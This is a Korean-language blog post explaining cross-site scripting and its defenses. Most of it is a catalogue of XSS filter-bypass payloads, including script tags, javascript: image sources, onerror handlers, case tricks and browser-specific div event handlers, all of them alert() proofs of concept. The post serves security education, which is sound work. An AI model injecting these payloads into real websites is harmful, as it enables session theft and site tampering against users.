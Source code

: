 ```yaml
---
layout: post
title: XSS(Cross-site Scripting) 공격에 대하여
---
```


오늘은 XSS(*Cross-site Scripting*)에 대해 알아보자.

## XSS란?

XSS는 일종의 Injection 공격으로, 웹사이트 보안이 취약한 부분에 주로 자바스크립트 코드를 삽입하여 특정 사람들의 정보를 빼가는 것을 노리는 공격이다. 하지만 XSS는 방어하기 어렵고 4년마다 한 번씩 출간되는 [OWASP Top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#Translation_Efforts_2)에도 계속 올라온다.

그렇다면 XSS는 왜 방어하기 어려울까? 그 이유는 브라우저가 자바스크립트 코드를 실행할 수 있고, 사용자들이 브라우저로 신뢰하고 있는 웹사이트를 돌아다닐 때 해당 페이지에서 악의적인 코드가 문제없이 실행될 수 있기 때문이다. 결국, 피해자의 브라우저에서 공격자에 의해 스크립트를 실행시켜 사용자 세션을 탈취할 수 있게 만들고, 웹사이트를 변조시켜 악성 사이트로 리다이렉션할 수 있도록 만든다.

XSS 공격을 막으려면 웹 페이지 입력 폼에서 올바른 유효성 검사 또는 필터링 처리 기능을 추가하고, 신뢰할 수 없는 데이터를 포함하지 않아야 한다.

## XSS Scripts

그렇다면 XSS 공격 스크립트들은 어떤 것이 있는지 알아보자. 공격자가 어떤 스크립트를 웹 페이지에 삽입하는지 확인할 수 있다.

### 기본적인 필터링이 없을 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
```

### 이미지 태그를 이용한 경우
```html
<IMG SRC="javascript:alert('XSS');">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<img src="javascript:alert('XSS');">
<img src=javascript:alert(&quot;XSS&quot;)>
<picture><source srcset="x"><img onerror="alert(1)"></picture>
<picture><img srcset="x" onerror="alert(1)"></picture>
<img srcset=",,,,,x" onerror="alert(1)">
```

### 따옴표(*Quotes*), 세미콜론(*Semicolon*)이 없는 경우
```html
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

### 대소문자 구별이 없는 경우
```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### <script> 태그를 사용하지 않는 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<video poster=javascript:alert(1)//></video>
<body oninput=alert(1)><input autofocus>
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<? foo="><x foo='?><script>alert(1)</script>'>">
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<% foo><x foo="%><script>alert(123)</script>">
```

### <div> 태그를 사용한 경우(각 브라우저 별로 정리)
```html
<!-- Chrome, Opera, Safari and Edge -->
<div onfocus="alert(1)" contenteditable tabindex="0" id="xss"></div>
<div style="-webkit-user-modify:read-write" onfocus="alert(1)" id="xss">
<div style="-webkit-user-modify:read-write-plaintext-only" onfocus="alert(1)" id="xss">

<!-- Firefox -->
<div onbeforescriptexecute="alert(1)"></div>
<script>1</script>

<!-- IE10/11 & Edge -->
<div style="-ms-scroll-limit:1px;overflow:scroll;width:1px" onscroll="alert(1)">

<!-- IE10 -->
<div contenteditable onresize="alert(1)"></div>

<!-- IE11 -->
<div onactivate="alert(1)" id="xss" style="overflow:scroll"></div>
<div onfocus="alert(1)" id="xss" style="display:table">
<div id="xss" style="-ms-block-progression:bt" onfocus="alert(1)">
<div id="xss" style="-ms-layout-flow:vertical-ideographic" onfocus="alert(1)">
<div id="xss" style="float:left" onfocus="alert(1)">

<!-- Chrome, Opera, Safari -->
<style>@keyframes x{}</style>
<div style="animation-name:x" onanimationstart="alert(1)"></div>

<!-- Chrome, Opera, Safari -->
<style>
div {width: 100px;}
div:target {width: 200px;}
</style>
<div id="xss" onwebkittransitionend="alert(1)" style="-webkit-transition: width .1s;"></div>

<!-- Safari -->
<div style="overflow:-webkit-marquee" onscroll="alert(1)"></div>
```

나중에 기회가 된다면 sqlmap같은 도구를 XSS 취약점 점검 도구 버전으로 개발해보고 싶다. xssmap? 사실 사람들이 개인적으로 만든 퍼저(*Fuzzer*)들이 많지만, 플랫폼 또는 언어를 통합할 수 있다면 좋을 것 같다.

[참고자료]
- http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html
- http://www.thegeekstuff.com/2012/02/xss-attack-examples/?utm_source=tuicool
- https://84692bb0df6f30fc0687-25dde2f20b8e8c1bda75aeb96f737eae.ssl.cf1.rackcdn.com/--xss.html
- https://github.com/cure53/H5SC
